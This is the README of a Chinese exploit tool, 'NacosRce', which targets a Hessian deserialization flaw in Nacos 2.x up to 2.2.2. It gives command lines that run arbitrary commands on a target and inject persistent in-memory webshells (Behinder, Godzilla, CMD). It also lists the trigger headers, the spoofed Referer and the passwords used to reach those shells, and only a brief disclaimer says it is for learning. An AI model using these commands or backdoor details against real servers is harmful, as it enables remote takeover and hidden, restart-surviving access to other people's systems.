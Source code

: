 ## Nacos Hessian 反序列化漏洞利用工具 v0.4

```latex

  _   _                     ____          
 | \ | | __ _  ___ ___  ___|  _ \ ___ ___ 
 |  \| |/ _` |/ __/ _ \/ __| |_) / __/ _ \
 | |\  | (_| | (_| (_) \__ \  _ < (_|  __/
 |_| \_|\__,_|\___\___/|___/_| \_\___\___|
```
<br />Author: 刨洞安全 && 凉风<br />
<br />注意：工具仅供学习使用，请勿滥用，否则后果自负！

<br />**食用方式 **<br />
1. 自动注入内存马并执行命令	java -jar NacosRce.jar Url Jraft端口 "Command"
   <br />	
   ```shell
   java -jar NacosRce.jar http://192.168.90.1:8848  7848 "whoami"
   ```
2. 只注入内存马
   ```shell
      java -jar NacosRce.jar http://192.168.90.1:8848 7848 memshell
   ```
   
   <br />


<br />内存马说明：
<br />一、冰蝎内存马：
   <br />1、需要设置请求头x-client-data:rebeyond
   <br />2、设置Referer:https://www.google.com/
   <br />3、路径随意
   <br />4、密码rebeyond
   ![img.png](img.png)
<br />二、哥斯拉内存马：
   <br />1、需要设置请求头x-client-data:godzilla
   <br />2、设置Referer:https://www.google.com/
   <br />3、路径随意
   <br />4、密码是pass 和 key
<br />![img_1.png](img_1.png)
<br />三、CMD内存马：
   <br />1、需要设置请求头x-client-data:cmd
   <br />2、设置Referer:https://www.google.com/
   <br />3、请求头cmd:要执行的命令
<br />![img_2.png](img_2.png)
v0.5版本实现了：
<br />1、不出网漏洞利用
<br />2、可多次发起漏洞利用
<br />3、同时注入冰蝎/哥斯拉/CMD内存马
<br />4、内存马对nacos多版本进行了兼容
<br />
<br />tips:
<br />1、请用jdk1.8
<br />2、适用于 Nacos 2.x <= 2.2.2
<br />3、非集群的也能打哦
<br />4、此内存马重启nacos依然存活
<br />
<br />关于Windows
<br />如用下面的方式执行，注入内存马时会生成临时文件 C:\Windows\Temp\nacos_data_temp 和 C:\Windows\Temp\nacos_data_temp.class 文件
```shell
java -jar NacosRce.jar http://192.168.90.1:8848  7848 "whoami" windows
```
<br />如果没有在最后加 windows，临时文件会在 /tmp/nacos_data_temp /tmp/nacos_data_temp.class，所以权限足够的话，不指定windows也能打成功
<br />windows 没打成功也许是因为没权限操作C盘或其他原因
<br />
<br />
项目地址：https://github.com/c0olw/NacosRce
推荐哥斯拉Nacos后渗透工具：
<br />参考文章
<br />[https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)
<br />[https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-反序列化分析/](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/)
<br />[https://github.com/Y4er/ysoserial](https://github.com/Y4er/ysoserial)
